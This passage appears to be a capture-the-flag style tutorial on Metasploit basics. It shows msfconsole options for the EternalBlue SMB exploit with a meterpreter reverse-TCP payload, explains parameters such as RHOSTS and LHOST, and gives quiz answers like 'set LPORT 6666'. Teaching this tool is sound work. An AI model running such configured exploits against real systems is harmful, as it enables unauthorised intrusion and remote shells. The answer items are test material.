 ```set PARAMETER_NAME VALUE```
````msf6 exploit(windows/smb/ms17_010_eternalblue) > show options```

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


```msf6 exploit(windows/smb/ms17_010_eternalblue) >```

Parameters that we will often use are:

- **RHOSTS :** “Remote host” , the IP address of the target system. Here a single IP address or a network range can be set. This will support the CIDR ( classless Inter-Domain Routing) notation or a network range.
- **RPORT : “**Remote port”, the port on the target system where the vulnerable application is running on.
- **PAYLOAD :** The payload that we use with the exploit.
- **LHOST : “**Localhost”. the attacking machine IP address.
- **LPORT :** “Local Port”, the port we use for the reverse shell to connect.
- **SESSION :** Each connection established to the target system using Metasploit will have a session ID that will connect to the target system using an existing connection.

How would you set the LPORT value to 6666? ⇒ set LPORT 6666

How would you set the global value for RHOSTS  to 10.10.19.23 ? ⇒ setg RHOSTS 10.10.19.23

What command would you use to clear a set payload? ⇒ unset PAYLOAD

What command do you use to proceed with the exploitation phase? ⇒ exploit
